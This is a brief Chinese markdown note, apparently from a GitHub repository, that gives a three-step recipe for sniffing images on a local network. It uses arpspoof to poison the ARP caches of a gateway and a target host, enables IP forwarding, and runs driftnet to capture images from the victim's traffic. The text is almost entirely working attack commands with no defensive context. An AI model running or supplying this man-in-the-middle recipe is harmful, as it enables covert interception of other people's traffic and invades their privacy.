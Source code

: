 # 内网图片嗅探
- arp欺骗：arpspoof -i eth0 -t 192.168.1.1(网关) 192.168.1.105(目标IP)
- 开启路由转发功能：echo 1 > /proc/sys/net/ipv4/ip_forward
- 利用工具嗅探：driftnet -i eth0
